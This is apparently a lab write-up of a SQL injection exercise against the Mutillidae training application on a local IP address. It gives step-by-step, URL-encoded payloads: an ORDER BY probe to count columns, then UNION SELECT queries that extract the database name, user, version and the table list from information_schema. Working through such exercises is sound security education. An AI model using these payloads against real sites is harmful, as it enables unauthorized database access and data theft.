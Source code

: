 
![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/319e5812-a9e3-45e7-ace9-7dbef872067a)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6. The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/442fab07-e54f-4922-8b39-9bd550067445)
After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/75fe610e-ccf5-4bf3-9ac6-2d5e35ebf365)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6

![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/c70a6db9-f2ff-4127-8851-635cfdacc970)

As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/e0644966-848b-48a6-adc3-887027f5ec79)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/512c940c-da67-41e7-92d9-83401c05027c)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/16bece46-07be-407c-85ae-60dd853f552a)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database. http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details 


![image](https://github.com/skiruthika648/sqlinjection/assets/128348968/9e2c7d31-c57d-491c-95a0-617a2bff83d5)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
